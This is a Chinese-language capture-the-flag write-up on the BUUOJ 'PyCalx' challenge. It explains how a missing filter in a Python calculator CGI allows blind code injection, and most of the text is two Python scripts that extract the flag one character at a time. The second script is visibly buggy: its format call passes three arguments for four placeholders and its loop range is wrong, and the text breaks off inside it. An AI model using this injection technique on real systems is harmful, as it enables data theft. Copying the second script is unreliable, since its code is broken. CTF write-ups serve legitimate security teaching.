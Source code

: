 ```python
            print("Invalid") # Sorry we don't support output as a string due to security issue.
    except:
        print("Invalid")


    print('>>> </pre></div></div></div>')
```

是实现了一个计算器（除了数字还可以运算字符串），但是对参数的过滤上并不严谨

![image-20211211173753491](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211211173753491.png)

忘了使用`get_value`函数了，导致我们可以用黑名单里面的运算符的，用类似char-by-char-sqli的方式盲注出flag（因为没有回显），我们可控的变量是source（作用域是全局）

```python
import requests
import urllib
import string
url="http://eabb9a29-a56e-461e-a0a8-7953b6c243c5.node4.buuoj.cn:81/cgi-bin/pycalx.py?source={0}&value1={1}&op={2}&value2={3}"
flag=""
source=""
value1=urllib.parse.quote("WQERGFD")
op=urllib.parse.quote("+'")
value2=urllib.parse.quote(" and FLAG>source#")
while True:
    prev = 0
    for i in range(255):

        if chr(i) in string.printable:
            source=flag+chr(prev)
            source=urllib.parse.quote(source)
            result=requests.get(url.format(source,value1,op,value2)).text
            #print(result)
            if "False" in result and "security" not in result:
                flag+=chr(prev-1)
                print(flag)
                break
            else:
                prev=i

```

看着跟sqli很像，是字符串进行比较，python默认比完第一位比第二位，所以不需要sqli那样指名第几位那样，注入可以普通for

```python
import requests
from requests.api import get
from requests.utils import quote
import string

url = 'http://eabb9a29-a56e-461e-a0a8-7953b6c243c5.node4.buuoj.cn:81/cgi-bin/pycalx.py?source={0}&value1={1}&op={2}&value2={3}'
flag = ''
source = ''
value1 = quote('WQERGFD')
op = quote("+'")
value2 = quote(' and FLAG>source#')

while True:
    prev = 0
    for i in range(45):
        if chr(i) in string.printable:
            source = flag + chr(prev)
            source = quote(source)
            resp = requests.get(url.format(source, value1, value2)).text
```